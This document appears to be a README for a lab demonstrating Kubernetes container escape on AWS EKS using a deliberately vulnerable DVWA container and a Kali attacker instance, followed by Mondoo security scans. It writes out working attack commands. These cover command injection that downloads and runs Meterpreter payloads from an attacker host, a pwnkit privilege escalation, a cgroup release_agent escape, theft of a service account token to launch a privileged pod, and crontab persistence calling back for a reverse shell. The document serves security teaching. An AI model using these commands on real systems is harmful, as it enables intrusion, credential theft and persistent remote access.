



# EKS container escape demo

DVWA is the "Damn Vulnerable Web Application" that will be used to demonstrate how a vulnerability in a container can lead to access to the host and to the cluster.

This folder contains Terraform automation code to provision the following:

- **AWS VPC**
- **AWS EKS Cluster** - 2 worker managed nodes (m5.medium)
- **Kali Linux AWS EC2 Instance** - This instance is provisioned for the demonstration of the container-escape demo. The instance is provisioned with  


<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [EKS container escape demo](#eks-container-escape-demo)
  - [Prerequsites](#prerequsites)
  - [Configuration](#configuration)
    - [Example configuration](#example-configuration)
  - [Provision the cluster](#provision-the-cluster)
  - [Connect to the cluster](#connect-to-the-cluster)
  - [Deploy Mondoo Operator to AKS](#deploy-mondoo-operator-to-aks)
  - [Deploy and configure DVWA](#deploy-and-configure-dvwa)
    - [Configure Port Forwarding](#configure-port-forwarding)
    - [Login to DVWA](#login-to-dvwa)
  - [Setup Attacker Linux Instance](#setup-attacker-linux-instance)
    - [Start the container listener](#start-the-container-listener)
    - [Start the host listener](#start-the-host-listener)
    - [Start Ruby webserver](#start-ruby-webserver)
  - [Escape time](#escape-time)
    - [Escalate Privileges on the container](#escalate-privileges-on-the-container)
    - [Gain access to worker nodes](#gain-access-to-worker-nodes)
  - [Mondoo scan commands](#mondoo-scan-commands)
  - [Destroy the cluster](#destroy-the-cluster)

<!-- /code_chunk_output -->

## Prerequsites

- [AWS Account](https://aws.amazon.com/free/)
- [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2.html) - `~> aws-cli/2.4.28`
- [Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli) - `~> v1.0.5`
- [AWS EC2 Key Pair](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html) - You should already have an AWS key pair created and uploaded to the region where you want to provision.
- [`kubectl`]() - Kubectl must be installed on the host that you run `terraform` from.

## Configuration

Before provisioning set the following environment variables:

- `TF_VAR_region` - AWS region where you want to provision the cluster.
- `TF_VAR_demo_name` - This is a prefix that will be applied to all provisioned resources (i.e. `your_name`).
- `TF_VAR_ssh_key` - AWS EC2 key pair for Kali linux access.
- `TF_VAR_ssh_key_path` - Path to to local ssh key for connecting to Kali Linux instance.
- `TF_VAR_publicIP` - IP address of your home network to be applied to the security group for the Kali linux instance.

### Example configuration 

Open a terminal and run the following commands:

```bash
export TF_VAR_region=us-east-1

export TF_VAR_demo_name=my_demo

export TF_VAR_ssh_key=aws_key

export TF_VAR_ssh_key_path=~/.ssh/id_rsa

export TF_VAR_publicIP="73.231.132.25"
```

## Provision the cluster

1. Clone the project
```bash title="Clone the project"
git clone git@github.com:Lunalectric/container-escape.git
```

2. cd into the terraform folder
```
cd container-escape/aws
```

3. Initialize the project (download modules)

```
terraform init
```

4. Check that everything is ready

```
terraform plan
```

5. Apply the configuration

```
terraform apply -auto-approve
```

Once the provisioning completes you will see something like this:

```bash
Apply complete! Resources: 80 added, 0 changed, 0 destroyed.

Outputs:

cluster_arn = "arn:aws:eks:us-east-2:921877552404:cluster/patrick-container-escape-demo-rkd9-cluster"
cluster_certificate_authority_data = "LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUM1ekNDQWMrZ0F3SUJBZ0lCQURBTkJna3Foa2lHOXcwQkFRc0ZBREFWTVJNd0VRWURWUVFERXdwcmRXSmwKY201bGRHVnpNQjRYRFRJeU1EZ3lNakEzTWpZMU1Gb1hEVE15TURneE9UQTNNalkxTUZvd0ZURVRNQkVHQTFVRQpBeE1LYTNWaVpYSnVaWFJsY3pDQ0FTSXdEUVlKS29aSWh2Y05BUUVCQlFBRGdnRVBBRENDQVFvQ2dnRUJBTFRCClhWdjVFeGtiSzhENDNjYjBEV21FeDRXRHZBV3d5S2ZmdW5EMUdJdVN4bWFPWVJJemRacnJBN2xTcFZqRVd1VkgKV1RqWDlKYjBuYjY4OXRlUkFvZ05RYlphbEZ2UXpaYkdTc0pud3Mydmc3QUREbEpsa3RKUXNlczQ5d0taRzZGQgpPZnUxZHgxTXRSMk5EQnFqZzFMWXlmMDIzWU1MbDVLVjB6RDdPZVV4RlV2TExoRUs2VGxNZ1dzWU51dm1LZFd1Cjd3M2l4cXBwamhGNmhBekV1TVdpdk1peTFzcW9MWDNHKzZvUll3SnlFWWt3cTFzK29NNitLN0N4bXpmUG1WSzIKcUI4YjAvVndQV2dMenp6UU43bFFRYmU1TTd4aUROcDlzWnZXb0ZVQmtUV3IyYW0zaEcybVB6R3JISm1pVHNmZApURFpqUEpPbm95WnViZUY0dnEwQ0F3RUFBYU5DTUVBd0RnWURWUjBQQVFIL0JBUURBZ0trTUE4R0ExVWRFd0VCCi93UUZNQU1CQWY4d0hRWURWUjBPQkJZRUZLZEV0a0tKZEx3Vit1Ky9xaU5YN3cyNWpWeStNQTBHQ1NxR1NJYjMKRFFFQkN3VUFBNElCQVFCeXhXQ1R6K3JhWjl5Yzl0Vjh2am9WRTlicHU4SWtCTmJ3L1MzNzM3Vk5YZFZkWktadwpwcC91TS9HMjZsemwwajlDbXpyUWx1V1hrbXlQZVBla1o4S25VeE9SRGNjVk9RS0xNS000SFp1bHVLdGxTaCtOCjAvSnBENXd0U1ZVTDhVaXFoNkRJMUtxUUlReHdpSWFtbllNMVhzSXhhbHVPOUNFeHk4VGpVcWNKWFJHOTc2VmkKQ1VjWnBrWWFob2VUd0hvVmZZN2xIZ1J4UUYvSG5xNDRBUW5UY0FSeEE2dmNtV05iY3hzSUk4ek9kMGFiRjBWdQozL3dlOXcwZUVvbG1HdXI4bUxYcVFkMVlTMk1kZE9iejBBNzRCcXhKL1o2MEFhRnJuSGJYeE1QYUpLWWMzd253CkxmUHFsOTdRVGo3bm5sN2lsUnJtZEJ3UEVDV2h4KzR0MFo3RgotLS0tLUVORCBDRVJUSUZJQ0FURS0tLS0tCg=="
cluster_endpoint = "https://36CA53411508275A6A0344728CCE7B98.gr7.us-east-2.eks.amazonaws.com"
cluster_id = "patrick-container-escape-demo-rkd9-cluster"
cluster_name = "patrick-container-escape-demo-rkd9-cluster"
cluster_primary_security_group_id = "sg-07ddfe03bd1795cac"
cluster_security_group_id = "sg-0db3437f63409f87e"
cluster_status = "ACTIVE"
command_injection = <<EOT

################################################################################
# USE THIS FOR THE COMMAND INJECTION:
################################################################################

;curl -vk http://18.117.77.75:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met

EOT
escape_container_script = <<EOT

################################################################################
# USE THIS TO ESCAPE CONTAINER ONTO THE HOST
################################################################################

mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://18.117.77.75:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

EOT
kali_linux_public_ip = <<EOT

################################################################################
# KALI LINUX SSH:
################################################################################
  
ssh -o StrictHostKeyChecking=no -i $HOME/.ssh/id_rsa kali@18.117.77.75

EOT
region = "us-east-2"
```

## Connect to the cluster

After Terraform finishes provisioning, you find your `eks-kubeconfig` Kubeconfig in the folder to connect to your EKS cluster:

Configure kubectl to use the eks-kubeconfig to connect to your EKS cluster

```bash
export KUBECONFIG="${PWD}/eks-kubeconfig"
```

```bash
kubectl get nodes
NAME                                       STATUS   ROLES    AGE   VERSION
ip-10-0-5-32.us-east-2.compute.internal   Ready    <none>   8m6s   v1.21.14-eks-ba74326
ip-10-0-6-19.us-east-2.compute.internal   Ready    <none>   8m4s   v1.21.14-eks-ba74326
```

## Deploy Mondoo Operator to EKS

Deploy the Mondoo Operator to the EKS cluster according the manual [https://mondoo.com/docs/tutorials/kubernetes/scan-kubernetes-with-operator/](https://mondoo.com/docs/tutorials/kubernetes/scan-kubernetes-with-operator/)

### Deploy cert-manager

At first deploy the cert-manager from [https://cert-manager.io/docs/installation/](https://cert-manager.io/docs/installation/):

```bash
kubectl apply -f https://github.com/cert-manager/cert-manager/releases/download/v1.9.1/cert-manager.yaml
```

### Deploy Mondoo Operator

Create a Kubernetes Integration in the Mondoo Dashboard [https://console.mondoo.com/](https://console.mondoo.com/).



Copy and paste the install commands from the Mondoo Dashboard to deploy the Mondoo Operator



## Deploy and configure DVWA

Deploy the DVWA application to your EKS cluster.

```bash
kubectl apply -f ../assets/dvwa-deployment.yml
deployment.apps/dvwa-container-escape created
```

Check if the deployment and pod is working.

```bash
kubectl get deployments
NAME                    READY   UP-TO-DATE   AVAILABLE   AGE
dvwa-container-escape   1/1     1            1           23s
```

```bash
kubectl describe pods
Name:         dvwa-container-escape-565fd5d4f4-kvct9
Namespace:    default
Priority:     0
Node:         ip-10-0-6-19.us-east-2.compute.internal/10.0.6.19
Start Time:   Mon, 22 Aug 2022 09:42:10 +0200
Labels:       app=dvwa-container-escape
              pod-template-hash=565fd5d4f4
Annotations:  kubernetes.io/psp: eks.privileged
Status:       Running
IP:           10.0.6.26
IPs:
  IP:           10.0.6.26
Controlled By:  ReplicaSet/dvwa-container-escape-565fd5d4f4
Containers:
  dvwa:
    Container ID:   docker://2f8e3522fb4d873baf65a85c78728af6432b948051066a29417b595e480696a5
    Image:          docker.io/pmuench/dvwa-container-escape
    Image ID:       docker-pullable://pmuench/dvwa-container-escape@sha256:a9e098747b285f4047e3662925f2832fbdd61d5e3d68647bbe91062348a529fd
    Port:           80/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Mon, 22 Aug 2022 09:42:29 +0200
    Ready:          True
    Restart Count:  0
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-4xdsp (ro)
Conditions:
  Type              Status
  Initialized       True 
  Ready             True 
  ContainersReady   True 
  PodScheduled      True 
Volumes:
  kube-api-access-4xdsp:
    Type:                    Projected (a volume that contains injected data from multiple sources)
    TokenExpirationSeconds:  3607
    ConfigMapName:           kube-root-ca.crt
    ConfigMapOptional:       <nil>
    DownwardAPI:             true
QoS Class:                   BestEffort
Node-Selectors:              <none>
Tolerations:                 node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                             node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:
  Type    Reason     Age   From               Message
  ----    ------     ----  ----               -------
  Normal  Scheduled  42s   default-scheduler  Successfully assigned default/dvwa-container-escape-565fd5d4f4-kvct9 to ip-10-0-6-19.us-east-2.compute.internal
  Normal  Pulling    42s   kubelet            Pulling image "docker.io/pmuench/dvwa-container-escape"
  Normal  Pulled     27s   kubelet            Successfully pulled image "docker.io/pmuench/dvwa-container-escape" in 14.668926648s
  Normal  Created    23s   kubelet            Created container dvwa
  Normal  Started    23s   kubelet            Started container dvwa
```

Deploy also the DVWA WebApp as a none privileged container and the the malicous role binding

```bash
kubectl apply -f ../assets/dvwa-deployment-no-privileged.yml

kubectl apply -f ../assets/rolebinding-abuse.yaml
```

Check the deployments

```bash
kubectl get pods
NAME                                                         READY   STATUS    RESTARTS   AGE
dvwa-container-escape-565fd5d4f4-fzvkw                       1/1     Running   0          14s
dvwa-container-escape-via-service-account-6bd84768b4-kbcxs   1/1     Running   0          11s
```

### Configure Port Forwarding

Establish a port forwarding to reach the DVWA application via your browser for the first hack. Open a terminal and run the following command to start port forward to the DVWA pod on `8080`:

```bash
kubectl port-forward dvwa-container-escape-565fd5d4f4-fzvkw 8080:80
```

For the second hack please configure the other port forwarding:

```bash
kubectl port-forward dvwa-container-escape-via-service-account-6bd84768b4-kbcxs 8080:80
```

### Login to DVWA



Open a browser and navigate to http://localhost:8080.

Log in to DVWA using `admin` with the password `password`.


Once logged in, click on "Create / Reset Database" after which, you will be logged out. Log back in to the web application and click on "Command Injection."

Next, open three command line terminals and continue the setup process.

## Setup Attacker Linux Instance

A Kali Linux EC2 instance is provisioned into the VPC for the hacking demo. Terraform will output the PublicIP address of the instance so you can SSH in.

```bash
kali_linux_public_ip = "18.117.77.75"
```

Use your AWS EC2 SSH key for access:

```bash
ssh -o StrictHostKeyChecking=no -i $HOME/.ssh/id_rsa kali@18.117.77.75

Linux kali 5.18.0-kali5-cloud-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
┏━(Message from Kali developers)
┃
┃ This is a cloud installation of Kali Linux. Learn more about
┃ the specificities of the various cloud images:
┃ ⇒ https://www.kali.org/docs/troubleshooting/common-cloud-setup/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
┌──(kali㉿kali)-[~] 
```

Once you have ssh'd on to the host you will find a `/home/kali/container-escape` directory with the following files:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape 
                                                                                                                                       
┌──(kali㉿kali)-[~/container-escape]
└─$ ls -la
total 2196
drwxr-xr-x 2 kali kali    4096 Oct 10 09:27 .
drwxr-xr-x 7 kali kali    4096 Oct 10 09:31 ..
-rwxr-xr-x 1 kali kali 1106792 Oct 10 09:27 met-container
-rwxr-xr-x 1 kali kali     207 Oct 10 09:27 met-host
-rwxr-xr-x 1 kali kali 1106792 Oct 10 09:27 met-kali
-rwxr-xr-x 1 kali kali     129 Oct 10 09:27 msfconsole1
-rwxr-xr-x 1 kali kali     123 Oct 10 09:27 msfconsole2
-rwxr-xr-x 1 kali kali     129 Oct 10 09:27 msfconsole3
-rwxr-xr-x 1 kali kali      27 Oct 10 09:27 start_ruby_webserver
```

### Start the container listener

In the first terminal, start `msfconsole` listening on port `4242` for the container:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4243` for the host:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape 
                                                                                                                                       
┌──(kali㉿kali)-[~/container-escape]
└─$ ./msfconsole2 
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/shell/reverse_tcp
lhost => 0.0.0.0
lport => 4243
[*] Started reverse TCP handler on 0.0.0.0:4243
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape 
                                                                                                                                       
┌──(kali㉿kali)-[~/container-escape]
└─$ ./start_ruby_webserver 
[2022-08-17 06:21:40] INFO  WEBrick 1.7.0
[2022-08-17 06:21:40] INFO  ruby 3.0.4 (2022-04-12) [x86_64-linux-gnu]
[2022-08-17 06:21:40] INFO  WEBrick::HTTPServer#start: pid=1104 port=8001
```

## Escape time via privileged container

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Escalate Privileges on the container

Now you need do the privilege escalation within the container to gain root. In the terminal where the container listener and run the following commands:

```bash
cd /tmp
```

Download the `priv-es` script to `/tmp`

```bash
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

Make the script executable:

```bash
chmod a+x ./priv-es
```

Execute the script

```bash
./priv-es
```

Open the shell

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Show that you are now root on the container

```bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Gain access to worker nodes

Now that you are root you can execute the following command to perform the container escape. Before you do this change the `<attacker_vm_public_ip>`

```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now you got the reverse shell with root privileges from the kubernetes node, to verify it, show your are root and compare the ip addresses with kubectl

```bash
[*] Sending stage (36 bytes) to 18.218.68.47
[*] Command shell session 1 opened (10.0.4.254:4243 -> 18.218.68.47:45802) at 2022-08-22 07:59:51 +0000

id 
uid=0(root) gid=0(root) groups=0(root)
hostname
ip-10-0-6-19.us-east-2.compute.internal
```

```bash
kubectl get nodes
NAME                                      STATUS   ROLES    AGE   VERSION
ip-10-0-5-32.us-east-2.compute.internal   Ready    <none>   29m   v1.21.14-eks-ba74326
ip-10-0-6-19.us-east-2.compute.internal   Ready    <none>   28m   v1.21.14-eks-ba74326
```

## Escape time via service account token

### Start the container listener

In the first terminal, start `msfconsole` listening on port `4242` for the container:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4243` for the host:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./msfconsole2
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/shell/reverse_tcp
lhost => 0.0.0.0
lport => 4243
[*] Started reverse TCP handler on 0.0.0.0:4243
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4244` for the host:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./msfconsole3
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4244
[*] Started reverse TCP handler on 0.0.0.0:4244
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
┌──(kali㉿kali)-[~]
└─$ cd container-escape

┌──(kali㉿kali)-[~/container-escape]
└─$ ./start_ruby_webserver
[2022-08-17 06:21:40] INFO  WEBrick 1.7.0
[2022-08-17 06:21:40] INFO  ruby 3.0.4 (2022-04-12) [x86_64-linux-gnu]
[2022-08-17 06:21:40] INFO  WEBrick::HTTPServer#start: pid=1104 port=8001
```

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Gain access to worker nodes through default service account token

Get the Service Account Token

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

Set the env variables to perform some curl requests

```bash
APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/version

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/apis/apps/v1

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/apis/apps/v1/namespaces/default/deployments

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST ${APISERVER}/apis/apps/v1/namespaces/default/deployments -H 'Content-Type: application/yaml' -d '---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: kali-hacker
  namespace: default
spec:
  selector:
    matchLabels:
      app: kali-hacker
  template:
    metadata:
      labels:
        app: kali-hacker
    spec:
      containers:
        - name: dvwa
          image: docker.io/kalilinux/kali-rolling
          command: ["/bin/bash","-c","/usr/bin/apt update -y && /usr/bin/apt install -y curl && /usr/bin/curl -vk http://<attacker_vm_public_ip>:8001/met-kali -o /tmp/met && /usr/bin/chmod 777 /tmp/met && /tmp/met"]
          imagePullPolicy: IfNotPresent
          ports:
            - containerPort: 80
          securityContext:
            privileged: true
      terminationGracePeriodSeconds: 30
'
```

You should received a meterpreter reverse shell from the Kali container

```bash
[*] Meterpreter session 1 opened (10.0.4.52:4244 -> 3.15.215.99:24567) at 2022-10-10 10:58:39 +0000

meterpreter > shell
Process 2577 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)

cat /mnt/etc/os-release
NAME="Amazon Linux"
VERSION="2"
ID="amzn"
ID_LIKE="centos rhel fedora"
VERSION_ID="2"
PRETTY_NAME="Amazon Linux 2"
ANSI_COLOR="0;33"
CPE_NAME="cpe:2.3:o:amazon:amazon_linux:2"
HOME_URL="https://amazonlinux.com/"

mount /dev/nvme0n1p1 /mnt/
echo "*/1 * * * * root curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /mnt/etc/crontab
```

After 1 minute you should received a reverse shell from the kubernetes node

```bash
[*] Sending stage (36 bytes) to 3.15.215.99
[*] Command shell session 1 opened (10.0.4.52:4243 -> 3.15.215.99:48887) at 2022-10-10 11:00:08 +0000

id
uid=0(root) gid=0(root) groups=0(root)
hostname
ip-10-0-6-13.us-east-2.compute.internal
```

## Mondoo scan commands

### Scan kubernetes manifest

```bash
mondoo scan k8s --path ../assets/dvwa-deployment.yml
```

### Scan container image from registry

```bash
mondoo scan cr docker.io/pmuench/dvwa-container-escape:latest
```


### Scan kubernetes eks cluster

```bash
mondoo scan k8s
```

### Shell to kubernetes eks cluster

```bash
mondoo shell -t k8s
```

List all of the pods and all of their settings:

```bash
k8s.pods { * }
```

Search for the dvwa pod and show `privileged: true`

```bash
k8s.pods.where( labels['app'] == /dvwa/ ) { * }
```

Use MQL to search for configuration across your cluster such as "are containers being pulled using `tags` or their image `digest`:

```bash
k8s.pods { _.containers { image containerImage { identifierType == "digest" } } }
```

You can also just turn that into an assertion where you expect that all containers use `digest` for `identifierType`:

```bash
k8s.pods.all( _.containers { image containerImage { identifierType == "digest" } })
```

You can also use a `where` clause and just turn that into a list and filter the results:

```bash
k8s.pods.where( _.containers { image containerImage { identifierType != "digest" } })
```

You can quick check the securityContext of your clusters to see if `allowPrivilegeEscalation` is set to `true`:

```bash
k8s.pods { containers { name securityContext } }
```

Turn it into an assertion:

```bash
k8s.pods.none(containers { securityContext['allowPrivilegeEscalation'] == true })
```

Get the list of pods that fail:

```bash
k8s.pods.where(containers { securityContext['allowPrivilegeEscalation'] != true })
```

# scan/shell kubernetes node via SSM

- replace variable `<AWS Instance ID>`

```bash
export AWS_REGION=us-east-2

mondoo scan -t aws-ec2-ssm://ssm-user@<AWS Instance ID>

mondoo shell -t aws-ec2-ssm://ssm-user@<AWS Instance ID>
```

